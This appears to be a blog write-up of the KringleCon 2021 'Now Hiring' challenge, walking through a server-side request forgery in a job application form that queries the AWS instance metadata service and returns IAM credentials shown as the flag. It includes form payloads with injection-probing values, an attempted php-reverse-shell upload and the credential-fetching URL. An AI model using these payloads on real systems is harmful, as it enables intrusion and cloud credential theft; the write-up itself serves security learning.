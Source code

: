 ```yaml
---
title: Now Hiring
layout: base.njk
description: >
  A short description of page
tags:
  - post
  - KringleCon2021Posts
---
```


# Introduction
This is a challenge that I truely do reccomend doing. It teaches you something about AWS IMDS, something that is compleatly new to me. I suggest reading this page first to grasp a better understanding of what we are actually doing on the serverside. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
The description for the challenge is: *What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.*
So we are after a secret key.

# Recon
The current target is this webpage: https://apply.jackfrosttower.com/. A simple nmap scan did reveal several open ports, but none of those will be used in this write up.
The page is simple and lets you apply to join the Jack Frost team. The four pages are Home, Opportunities, Apply or About. Dirb did find https://apply.jackfrosttower.com/images/, the dir itself is 403 forbidden, but manually finding pictures there is allowed. I'll save that for later. 
Further enumeration surronding media on the site shows that the photos under opportunity are broken and have no data. Strange, but might help. 
The apply application lets you upload files and asks for Name, Email, Phone number, URL to NLBI report and additional information. 
What is a NLBI report? http://nppd.northpolechristmastown.com/
It's a report athat you are injustly set on the naughty list. I'm guessing it does a check up against that url to see if the user is allowed to apply.

So to summerize:
- We can most likely send the server to an url
- We can upload files
- We can manually check for images in the image folder if we know the name

We need to send something in the form to check the output, additionally I will start burp to make it easier to enumerate via the repeater.
I like to put unique values to see where they end up. By that we can easier understand what gave what error.
The email form didn't like that i added chars that were illegal, but thats on the clientside. Just edit the form with inspector to change the type field from email to text and you're good to go.
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://nppd.northpolechristmastown.com/infractions 
Additional information = Give root pls
```
With these parameters I only recive a submission recived. I can't find our data anywhere, so this must not be it.
I'm going to try IMDS to see what we recive:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/
Additional information = Give root pls
```
This results in a new page! It tells us that they will be in touch. And we see a picture that is broken. But upon inspecting the picture, we seee that there is data in it. I downloaded it and tried to read the output. It resulted in the following:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```
So our query succeeded! We are using SSRF and IMDS to retrive information about the backend. Well, our goal is to retrive the public key, so lets do that!

# Exploitation
I used the following payload for my exploit:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/iam/security-credentials
Additional information = Give root pls
```
**The result**
```
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

And there we got our flag!

# Final thoughts
I'm not sure how real world this is by having the results put into a picture. But the creativity makes it so much more fun.
If you want to do this in burp you can, then you have to go to the images subpage we found earlier and get them from there.
